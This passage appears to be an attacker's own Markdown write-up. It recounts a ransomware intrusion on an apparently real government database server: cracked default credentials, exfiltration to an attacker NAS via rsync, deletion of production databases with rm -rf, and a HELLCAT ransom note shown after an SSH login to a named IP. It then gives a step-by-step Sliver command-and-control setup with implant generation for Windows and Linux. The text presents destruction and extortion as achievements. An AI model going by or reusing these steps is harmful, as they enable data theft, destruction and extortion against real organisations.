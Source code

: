 **3. Data Exfiltration**
- Cracked Firebird default credentials
- Mounted attacker NAS
- Exfiltrated via `rsync`

**4. Ransom Deployment**
- Executed `rm -rf` on production databases
- Left ransom note:
  ```bash
  └─# ssh -i ./indgov root@180.214.248.20 -p 2222
  Linux bppkad-dbserver 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64
  IMPORTANT!!! IMPORTANT!!! IMPORTANT!!! IMPORTANT!!! IMPORTANT!!!
  
  Your files have been ENCRYPTED AND STOLEN by the HELLCAT Ransomware Group.
  View the note to see how to get your data.
  'HOW TO GET YOUR DATA.txt' in every main directory.
  ```
- Immediate effect: Site showed database connection errors

### Outcome
- **14+ days downtime**  
- Data successfully monetized

## 4. C2 Infrastructure Setup

### Sliver C2 Framework Setup

**1. Server Requirements**
- Recommended: VPS (I use [4vps.su](https://4vps.su))
  
**2. Installation**
```bash
curl https://sliver.sh/install | sudo bash
```
Then start Sliver:
```bash
sliver
```

**3. Basic Configuration**
- Client connects to local server by default
- Create new operators:
  ```bash
  sliver > new-operator
  ```
- For external servers: Edit configuration file

### Generating Implants
**Windows payload:**
```bash
sliver > generate --mtls 192.168.1.10 --os windows
```

**Linux payload:**
```bash
sliver > generate --mtls 192.168.1.10 --os linux
```
